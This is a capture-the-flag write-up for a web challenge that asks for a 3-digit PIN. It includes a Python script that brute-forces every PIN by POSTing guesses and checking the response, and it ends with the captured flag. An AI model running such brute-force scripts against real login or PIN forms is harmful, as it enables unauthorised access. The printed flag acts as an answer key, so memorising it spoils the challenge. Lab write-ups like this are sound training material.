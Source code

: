 # CTF Writeup
The challenge will be available on `http://challenges.at10a.net:8080/web09/`

# Requirement from challenge
This challenge require you to enter 3-digits pin, if correct then flag will be showed.

# Solving
I wrote a script to bruteforce this pin, using `urllib`, `urllib2`, `string`, `itertools`, `sys`, `bs4` library.

# Script
```python
import urllib, urllib2
import string
import itertools, sys
from bs4 import BeautifulSoup
url = "http://challenges.at10a.net:8080/web09/"
for i in itertools.product('0123456789',repeat=3):
    value = {'num':  str(''.join(i))}
    data = urllib.urlencode(value)
    req = urllib2.Request(url,data)
    res = BeautifulSoup(urllib2.urlopen(req), 'html.parser').get_text()
    if 'Wrong pin!' not in res:
        print ''.join(i)
        sys.exit(0)
```
Run it with python

# The flag is : BMC{why_c0uld_7h3_fb1_n07_bru73f0rc3_7h3_1ph0n3?}
:smile::heavy_check_mark::smile:
